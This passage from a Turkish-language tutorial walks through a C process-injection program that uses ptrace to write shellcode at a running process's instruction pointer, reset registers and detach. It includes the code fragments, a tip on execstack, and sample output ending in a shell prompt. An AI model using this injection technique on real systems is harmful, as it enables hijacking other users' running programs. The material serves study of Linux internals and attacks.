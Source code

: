 


***Burada ise,*** 

```
  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
  regs.rip += 2;
```  
  
Kontrolümüz altındaki process 'e shellcode enjekte etmek için kullanacağımız “inject_data” fonsiyonu çağırılır. Burada bulunan regs.rip ise bize daha önceden regs ismindeki değişkene atadığımız Registerlar içerisinden (x64 Mimariye göre) Instruction Pointerı bize verir.  
  
Artık, hedefimizdeki Process Memory, shellcode umuzu içerecek şekilde değiştirildiğine göre, process i tekrar kontrol etmemiz ve çalışmaya devam etmesine izin vermemiz gerekiyor.


***Aşşağıdaki Kodu incelemeye devam edecek olursak ,***

```
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);
  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;
}

```

Burada ptrace çağrısının “PTRACE_DETACH” parametresi ile hedef process e *detach* işlemi gerçekleştirilir. Yani process te Debugging yapmayı durduracağız. Bu eylem, Debugging oturumunu etkili bir şekilde durdurur ve hedef process çalışmaya devam eder..





Test sırasında, Stack içerisine kod enjekte etmeye çalıştığımda hedef program crash oluyordu. Bunun bir nedeni, stack 'in shellcode um için çalıştırılabilir olmamasıydı. *execstack* Aracını kullanarak bu sorunun üstesinden gelebilirsiniz…

Programı derleyip çalıştırdığımızda , çıktı şu şekilde olacaktır :

```
┌─[mehmet@kernel]─[~/Desktop]
└──╼ $./ptr 1349
+ Tracing process 1349
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f74bfde45ce
+ Setting instruction pointer to 0x7f74bfde45d0
+ Run it!
$
```

